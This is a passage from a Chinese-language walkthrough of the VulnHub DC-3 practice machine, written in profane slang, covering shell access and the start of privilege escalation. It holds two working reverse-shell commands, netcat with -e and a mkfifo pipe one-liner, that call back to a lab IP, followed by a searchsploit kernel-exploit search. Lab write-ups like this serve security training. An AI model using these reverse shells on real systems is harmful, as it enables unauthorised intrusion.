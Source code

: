 连上去了,手动在弹个 shell 回来
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/17.png)

谜题解开了,这 TM 是 openbad版本的 nc,我不管,老子就是要弹
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/18.png)

狗日的，还不是被我连上了,改下交互,查看版本
```bash
lsb_release -a
uname -a
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/14.png)

---

# 后期-提权

使用 searchsploit 找找这个版本的漏洞
```bash
searchsploit -w ubuntu 16.04 4.4.x
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/16.png)
